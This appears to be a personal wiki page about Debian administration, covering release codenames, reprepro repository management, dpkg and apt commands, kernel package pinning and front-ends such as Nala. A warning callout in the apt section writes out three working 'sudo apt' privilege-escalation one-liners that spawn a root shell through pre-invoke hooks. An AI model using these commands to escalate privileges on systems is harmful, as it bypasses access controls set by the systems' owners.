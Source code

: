 ```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```

# Debian

## Distros

|           | Codename   | Release    | End-of-life |
| --------- | ---------- | ---------- | ----------- |
| Debian 12 | [bookworm] | 2023-06-10 |             |
| Debian 11 | [bullseye] | 2021-08-14 |             |
|           |            |            |             |

## Repositories & Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

### Debian Packages

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
# add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
# test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
# actually pull changes to target channel: replace checkpull by pull
```

### dpkg

```bash
# extract package
dpkg -x [-X] <package> <destination>
# compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

Tags: #linux/apt

Add repository: add file in `/etc/apt/sources.list.d/` with

```
deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main
```

Install specific version

```bash
sudo apt install package_name=package_version
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
> ```

`apt-get clean`: empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
[apt-fast](https://github.com/ilikenwf/apt-fast): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package

Speed up downloads by using multiple parallel connections: (unofficial) [package `apt-fast`](https://github.com/ilikenwf/apt-fast)

#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```

#### Nala

[Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


## References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>
[bullseye]: <https://www.debian.org/releases/bullseye/>
[bookworm]: <https://www.debian.org/releases/bookworm/>